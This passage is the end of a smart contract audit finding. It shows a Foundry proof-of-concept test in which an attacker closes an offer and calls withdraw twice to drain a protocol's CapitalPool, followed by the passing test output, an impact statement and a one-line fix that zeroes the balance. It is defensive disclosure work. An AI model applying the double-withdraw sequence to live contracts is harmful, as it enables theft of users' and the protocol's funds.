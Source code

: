 ```Solidity
        address stockAddr = GenerateAddress.generateStockAddress(0);
        address offerAddr = GenerateAddress.generateOfferAddress(0);

        /// user close offer
        vm.startPrank(attacker);
        preMarktes.closeOffer(stockAddr, offerAddr);

        /// User withdraw the fund twice
        tokenManager.withdraw(address(weth9), TokenBalanceType.MakerRefund);
        tokenManager.withdraw(address(weth9), TokenBalanceType.MakerRefund);

        uint256 balanceAfterWtithdraw = weth9.balanceOf(address(capitalPool));

        vm.stopPrank();

        assertEq(balanceAfterWtithdraw, 0, "Capital pool should have 0 ETH");
        assert(attacker.balance > initialAttackerBalance);
    }
```

Test passed indicating

1. Attacker can withdraw twice
2. No more funds left in the `CapitalPool`
3. Attacker gains more funds than deposited

```Solidity
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.32ms (853.54µs CPU time)
```

## Impact

This vulnerability allows users to withdraw more tokens than they have deposited or earned, potentially leading to the complete depletion of the contract's funds. It undermines the entire system's financial integrity, causing direct financial losses for both the protocol and other users

## Tools Used

* Manual review
* Foundry

## Recommendations

Update the user token balance state after the withdrawal

```diff
function withdraw(address _tokenAddress, TokenBalanceType _tokenBalanceType) external whenNotPaused {
    // ... (existing code)
    // Update user balance
+  userTokenBalanceMap[_msgSender()][_tokenAddress][_tokenBalanceType] = 0;
    // ... (rest of the function)
}
```
